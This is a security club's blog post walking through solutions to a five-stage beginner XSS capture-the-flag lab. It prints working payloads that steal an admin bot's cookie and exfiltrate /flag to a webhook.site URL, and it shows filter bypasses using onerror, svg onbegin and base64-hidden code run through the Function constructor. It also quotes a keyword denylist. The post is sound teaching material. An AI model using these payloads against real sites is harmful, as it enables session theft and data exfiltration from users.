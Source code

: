 ```yaml
---
layout: post
title:  "beginner xss recap"
date:   2021-09-23
categories: web
---
```


Last meeting (9/23), we went over some beginner XSS (Cross Site Scripting). These are the solutions to the multi-stage challenge that you had lab time to work on.

You can reference the lecture [here](https://docs.google.com/presentation/d/17Gc2c_fv2uEVucDAzmRulf_lyIwglVO-V9X283Geip8/edit#slide=id.p).

Note: the later stages of the challenges were much more than beginner-level, so don't worry if you couldn't get them!

Overall, there were 5 stages:
- [admin cookie flag](#admin-cookie)
- read `/flag` with:
    - [static note type](#static-note)
    - [dynamic note type](#dynamic-note)
    - [image note type](#image-note)
    - [filtered note type](#filtered-note)


The source of the challenge server is also available on [GitHub](https://github.com/blairsec/club-challs-2021/blob/master/xss/site/src/index.ts).

For those who were confused of the overall flow of the challenge, the goal is to achieve XSS and submit a page with malicious code to the admin bot. The admin bot simulates a real person and "visits" the page, (hopefully) triggering your XSS which you can then leverage and turn into a flag. In the real world, the admin bot could be someone important such as someone with a valuable bank account.


#### admin cookie  
We can use [webhook.site](https://webhook.site/) to log our requests.

In this session, my webhook was at `https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de`. Yours probably will look similar, but will have a different UUID (the part after `.site/`).
 
To test that XSS indeed exists, let's make a static note that just sends a GET request to our webhook.site:  
{% raw %}  
```html  
<script>  
fetch("https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de")  
</script>  
```  
{% endraw %}  
 
Let's try to steal the cookie of the admin. Using Javascript, we can access the cookies using `document.cookie`. Keep in mind this only works for non-HttpOnly cookies. Read more about HttpOnly cookies [here](https://www.cookiepro.com/knowledge/httponly-cookie/).  
- In short, HttpOnly cookies cannot be accessed by any script run by the browser, including anything malicious that we might put there  
 
{% raw %}  
```html  
<script>  
fetch("https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de/?" + document.cookie)  
</script>  
```  
{% endraw %}  
 
This appends any of the admin's non-HttpOnly cookies to the url, plus the `?`. The `?` marks anything after that as a key-value pair of GET request parameters.  
 
`/?asdf=fdsa&zxcv=vcxz` would contain:  
- asdf: fdsa  
- zxcv: vcxz  
 
It also just happens that document.cookie is in `key=value` format.  
 
Submitting the site to the admin, we get a request to `https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de?cookie_flag=flag%7Bcookie_monster_nom_nom%7D`.

webhook.site automatically extracts the GET request parameters for us, and we can see the flag under the `Query strings` section.  
 
Flag: `flag{cookie_monster_nom_nom}`  
 
#### static note
This time, we want to read `/flag` as the admin and then send the content of whatever we read to ourselves.  
 
Using [Mozilla docs](https://developer.mozilla.org/en-US/docs/Web/API/Response/text) for the fetch() api, we see we can use `fetch(url).then(resp => resp.text().then(text => {function}))` to read the contents of `url`. We can then send the content back to ourselves like how we stole the admin's cookies.  
{% raw %}  
```html  
<script>  
fetch("/flag").then(resp =>
    resp.text().then(s =>
        fetch("https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de/?flag=" + s)
    )
)
</script>
```  
{% endraw %}

Flag: `flag{starting_off_with_baby_steps}`

#### dynamic note
According to the provided source, the site is rendered with a JavaScript that fetches the user data and then uses `.innerHTML` to populate the user data field, instead of templating it directly. This means that using `<script>` tags won't work because the scripts won't run.

However, we can easily bypass this by using the [`onerror`](https://www.w3schools.com/jsref/event_onerror.asp) property of a dummy image.

In short, the `onerror` property runs the JavaScript assigned to it whenever the image or other structure fails to load. We can make an image with `src="x"` to guarantee that the image load fails, meaning our JavaScript will always run.

Then, we just do the same thing we did last time for the static note, albeit slightly minimized to fit in one line.
```html
<img src="x" onerror='fetch("/flag").then(resp => resp.text().then(s => fetch("https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de/?flag=" + s)))' />
```

Flag: `flag{leeking_deets_like_a_boss}`

#### image note

According to the source, when we create an image note our payload is inserted into the form `<img src="${note.content}"`.

This is really easy to escape. You only need to put a double quote to complete the `src="` and then you can define your own `onerror` handler.

I used \` (backtick) for my strings because JavaScript is cool like that. You could probably find a way to escape the strings using `\`.

```
x" onerror='fetch(`/flag`).then(resp => resp.text().then(s => fetch(`https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de/?flag=` + s)))' style="
```

Flag: `flag{the_great_property_escape}`

#### filtered note
The filter consists of the following banned keywords:
```javascript
["script",
"img",
"onerror",
"iframe",
"fetch",
"window",
"eval",
"function",
"then",
"{",
"}",
"xmlhttprequest",
"navigator",
"location",
"self",
]
```

You could think of a very creative and inspiring solution to get around this denylist. Or you could use an [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).

I used `<svg><animate onbegin='<payload>' attributeName=x dur=1s>` to achieve XSS.

The process of breaking out of JavaScript jails is typically just a get-it-or-you-don't kind of situation. With so many important keywords banned, it is generally a good idea to find a way to hide the payload used to send yourself the flag with some sort of encoding so the filter cannot detect it. Then, you can decode it and evaluate it. But wait, `eval` is banned too.

It turns out that JavaScript is the best language in the world and you can create a function out of a string. For example, `([]).constructor.constructor('alert(1)')()` constructs a function that does `alert(1)` and runs it. This is super powerful because we can now encode our flag payload and hide it into this function.

Taking our payload from our [dynamic note](#dynamic-note) solution, we can base64 encode it to get it past the filter. Then, we can use `atob()` to convert it back when JavaScript evaluates.

```javascript
// ZmV0Y2goIi9mbGFnIikudGhlbihyZXNwID0+IHJlc3AudGV4dCgpLnRoZW4ocyA9PiBmZXRjaCgiaHR0cHM6Ly93ZWJob29rLnNpdGUvOGQ2ZmIzODYtMzI4YS00MGU3LWJlMmItZjEyNDcyOTI2N2RlLz9mbGFnPSIgKyBzKSkp
// is the base64 encoded version of:
fetch("/flag").then(resp => resp.text().then(s => fetch("https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de/?flag=" + s)))
```

Putting it all together, our final payload is:
{% raw %}
```html
<svg><animate onbegin='([]).constructor.constructor(atob("ZmV0Y2goIi9mbGFnIikudGhlbihyZXNwID0+IHJlc3AudGV4dCgpLnRoZW4ocyA9PiBmZXRjaCgiaHR0cHM6Ly93ZWJob29rLnNpdGUvOGQ2ZmIzODYtMzI4YS00MGU3LWJlMmItZjEyNDcyOTI2N2RlLz9mbGFnPSIgKyBzKSkp"))()' attributeName=x dur=1s>
```
{% endraw %}

Flag: `flag{cant_stop_me_now}`

See you at our next meeting, on 9/30! We'll also go over the challenge then, although perhaps not in so much detail.

~ josh
